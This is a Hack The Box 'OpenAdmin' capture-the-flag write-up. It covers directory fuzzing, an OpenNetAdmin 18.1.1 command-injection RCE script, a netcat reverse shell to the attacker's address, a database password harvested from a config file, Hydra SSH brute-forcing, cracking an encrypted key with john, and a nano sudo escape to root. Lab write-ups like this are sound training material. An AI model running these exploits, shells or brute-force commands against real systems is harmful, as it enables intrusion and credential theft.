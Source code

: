 ```yaml
---
cover: ../.gitbook/assets/ChatGPT Image May 31, 2025, 09_02_25 AM.png
coverY: 0
---
```


# 🕵️ HTB: OpenAdmin – RCE, Privilege Escalation, and the Art of Improvisation

<figure><img src="../.gitbook/assets/ChatGPT Image May 31, 2025, 09_02_25 AM.png" alt=""><figcaption></figcaption></figure>

### 🔍 Enumeration Phase

We begin the usual way—**recon** with `nmap`.

**Open ports**:

* 22 (SSH)
* 80 (HTTP)

Port 80 means web enumeration. Time to let **ffuf** loose:

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
ffuf -u http://10.10.10.171/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200,204,301,302,307,401 -o results.txt
```

**Interesting hits**:

* `/music/`
* `/sierra/`
* `/artwork/`

Crawling with **hakrawler** through Burp gave a promising path:

```bash
cat urls.txt | hakrawler -proxy http://localhost:8080
```

Bingo. This is **OpenNetAdmin**, and version **18.1.1** specifically.

### 💥 Initial Foothold: RCE via OpenNetAdmin

Quick search on [ExploitDB](https://www.exploit-db.com/exploits/47691) brings up an RCE:

```bash
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl -x http://localhost:8080 --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

With a little Burp Proxy magic, we got a working shell. Though unstable, it did the job.

### 🧠 Privilege Escalation Begins

Time for lateral movement. Classic reverse shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f

```

```bash
nv -lvnp 1234
```

```bash
/usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### 📦 Credential Harvesting

A quick loot run on config files reveals gold:

```bash
cat /var/www/html/ona/local/config/database_settings.inc.php
```

```bash
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
```

### 🔐 SSH Brute-force and User Access

Grabbed usernames from `/etc/passwd`:

```
jimmy  
joanna  
root  
```

Brute-forced via Hydra:

```bash
hydra -L user.txt -P password.txt ssh://10.10.10.171

```

🎯 Hit confirmed: jimmy : n1nj4W4rri0R!



```bash
ssh jimmy@10.10.10.171
```

### 🕵️ Discovery and Key Recovery

Exploring `/var/www/internal` (finally accessible as jimmy), we find something new. The page isn’t accessible over HTTP, but we can curl it locally:

```bash
curl localhost:52846/main.php
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And boom—we find an SSH private key.

But it's encrypted. Time for `john` magic:

```bash
ssh2john key > hash  
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

### ⚡ Privilege Escalation to Root

We check what joanna can run:

```
sudo -l
```

Allowed to run:

```
/bin/nano /opt/priv
```

We abuse it using a classic `nano` GTFOBins technique:

Inside nano:

```
^R^X
cat /root/root.txt
```

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

for a shell

```
^R^X
reset; sh 1>&0 2>&0

```

